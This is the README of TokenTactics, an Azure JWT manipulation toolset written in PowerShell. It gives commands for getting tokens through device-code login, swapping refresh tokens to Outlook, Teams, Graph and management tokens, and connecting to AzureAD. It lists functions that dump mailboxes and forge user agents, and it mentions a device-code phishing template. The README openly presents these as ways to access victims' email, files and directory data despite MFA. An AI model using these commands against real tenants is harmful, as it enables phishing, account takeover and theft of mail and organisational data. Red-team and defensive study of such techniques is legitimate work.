 # TokenTactics
Azure JSON Web Token ("JWT") Manipulation Toolset

Azure access tokens allow you to authenticate to certain endpoints as a user who signs in with a device code. Even if they used multi-factor authentication. Once you have a user's access token, it may be possible to access certain apps such as Outlook, SharePoint, OneDrive, MSTeams and more. 

For instance, if you have a Graph or MSGraph token, you can then connect to Azure and dump users, groups, etc. You could then, depending on conditional access policies, switch to an Azure Core Management token and run [AzureHound](https://github.com/BloodHoundAD/AzureHound). Then, switch to an Outlook token and read/send emails or MS Teams and read/send teams messages!

For more on Azure token types [Microsoft identity platform access tokens](https://docs.microsoft.com/en-us/azure/active-directory/develop/access-tokens)

There are some example requests to endpoints in the resources folder. There is also an example phishing template for device code phishing.

You may also use these tokens with [AAD Internals](https://o365blog.com/aadinternals/) as well. We strongly recommended to check this amazing tool out.

## Installation and Usage

```Import-Module .\TokenTactics.psd1```

```Get-Help Get-Azure-Token```

```RefreshTo-SubstrateToken```

### Generate Device Code

```Get-AzureToken -Client MSGraph```
Once the user has logged in, you'll be presented with the JWT and it will be saved in the $response variable. To access the access token use ```$response.access_token``` from your PowerShell window to display the token. You may also display the refresh token with ```$response.refresh_token```. Hint: You'll want the refresh token to keep refreshing to new tokens!

#### DOD/Mil Device Code
```Get-AzureToken -Client DODMSGraph```

### Refresh or Switch Tokens

```RefreshTo-OutlookToken -domain myclient.org -refreshToken ey..```

```$OutlookToken.access_token```

### Connect
```Connect-AzureAD -AadAccessToken $response.access_token -AccountId user@myclient.org```

### Clear tokens
```Clear-Token -Token All```

### Commands
```powershell
Get-Command -Module TokenTactics

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Function        Clear-Token                                        0.0.1      TokenTactics
Function        Dump-OWAMailboxViaMSGraphApi                       0.0.1      TokenTactics
Function        Forge-UserAgent                                    0.0.1      TokenTactics
Function        Get-AzureToken                                     0.0.1      TokenTactics
Function        Get-TenantID                                       0.0.1      TokenTactics
Function        Open-OWAMailboxInBrowser                           0.0.1      TokenTactics
Function        Parse-JWTtoken                                     0.0.1      TokenTactics
Function        RefreshTo-AzureCoreManagementToken                 0.0.1      TokenTactics
Function        RefreshTo-AzureManagementToken                     0.0.1      TokenTactics
Function        RefreshTo-DODMSGraphToken                          0.0.1      TokenTactics
Function        RefreshTo-GraphToken                               0.0.1      TokenTactics
Function        RefreshTo-MAMToken                                 0.0.1      TokenTactics
Function        RefreshTo-MSGraphToken                             0.0.1      TokenTactics
Function        RefreshTo-MSManageToken                            0.0.1      TokenTactics
Function        RefreshTo-MSTeamsToken                             0.0.1      TokenTactics
Function        RefreshTo-O365SuiteUXToken                         0.0.1      TokenTactics
Function        RefreshTo-OfficeAppsToken                          0.0.1      TokenTactics
Function        RefreshTo-OfficeManagementToken                    0.0.1      TokenTactics
Function        RefreshTo-OutlookToken                             0.0.1      TokenTactics
Function        RefreshTo-SubstrateToken                           0.0.1      TokenTactics
```

## Authors and contributors
- [@0xBoku](https://github.com/boku7) co-author and researcher.

TokenTactic's methods are highly influenced by the great research of Dr Nestori Syynimaa at https://o365blog.com/.

